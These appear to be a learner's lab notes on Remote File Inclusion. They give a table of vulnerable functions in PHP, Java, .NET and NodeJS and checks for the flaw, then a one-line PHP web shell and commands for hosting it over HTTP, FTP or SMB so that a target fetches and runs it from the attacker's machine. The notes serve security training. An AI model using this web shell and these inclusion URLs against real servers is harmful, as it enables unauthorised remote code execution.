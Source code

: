 When a *vulnerable function allows us to include remote files*, we may be able to *host a malicious script, and then include it in the vulnerable page to execute malicious functions* and gain remote code execution. This is called **Remote File Inclusion**.

| Function                                           | Read Content | Execute | Remote URL |
| -------------------------------------------------- | ------------ | ------- | ---------- |
| <mark style="background: #ADCCFFA6;">PHP</mark>    |              |         |            |
| include()/include_once()                           | ✅           | ✅      | ✅         |
| file_get_contents()                                | ✅           | ❌      | ✅         |
| <mark style="background: #FFB86CA6;">Java</mark>   |              |         |            |
| import                                             | ✅           | ✅      | ✅         |
| <mark style="background: #D2B3FFA6;">.NET</mark>   |              |         |            |
| @Html.RemotePartial()                              | ✅           | ❌      | ✅         |
| include                                            | ✅           | ✅      | ✅         |
| <mark style="background: #BBFABBA6;">NodeJS</mark> |              |         |            |
| res.render()                                       | ✅           | ✅      | ❌         | 
As we can see, *almost any RFI vulnerability is also an LFI vulnerability*, as any function that allows including remote URLs usually also allows including local ones. *However, an LFI may not necessarily be an RFI.* This is primarily because of three reasons:
1.  The vulnerable function may **not allow including remote URLs**
2.  You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`).
3.  The configuration may prevent RFI altogether, as **most modern web servers disable including remote files by default.**


## Verify RFI

=== multi-column-start: ID_hehf
```column-settings
Number of Columns: 2
Largest Column: standard
```
### Check 1

Check If `allow_url_include = On` As We Did in [[Local File Inclusion]]

=== end-column ===

### Check 2

`try and include a Local URL`, and see if we can get its content.
**Example** : [http://[SERVER_IP]:[PORT]/index.php?language=http://127.0.0.1:80/index.php]
If The `index.php` page did not get included as source code text but *got executed and rendered as PHP*, The Site is Vulnerable to a *Malicious PHP Script*

=== multi-column-end

%%    Verify If Both Are True!   %%

## Remote Code Execution with RFI
- Create a Basic **PHP Web Shell**
```shell
echo '<?php system($_GET["cmd"]);?>' > shell.php
```

There Are 3 Methods To Host This Script :-
=== multi-column-start: ID_b8w6
```column-settings
Number of Columns: 3
Largest Column: standard
```
#### HTTP
```shell-session
python3 -m http.server <LISTENING_PORT>
```

http://<SERVER_IP>:[PORT]/index.php?language=http://<OUR_IP>:[LISTENING_PORT]/shell.php&cmd=[command]    %%          In Browser        %%
If **shell.php** Doesn't Work, *Remove .php at the end*.

=== end-column ===

#### FTP
```shell-session
python -m pyftpdlib -p 21
```
http://<SERVER_IP>:[PORT]/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
**Use This if HTTP is blocked by the firewall**
If the *Server Requires Authentication*, Use :-
```shell-session
aaryan11x@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

=== end-column ===

#### SMB
If the vulnerable web application is hosted on a *Windows server* (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the *SMB protocol for the remote file inclusion*.
```shell-session
aaryan11x@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
```
http://<SERVER_IP>:[PORT]/index.php?language=\\<OUR_IP>\shell.php&cmd=whoami

**NOTE: This technique is more likely to work if we were on the same network, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.**

=== multi-column-end


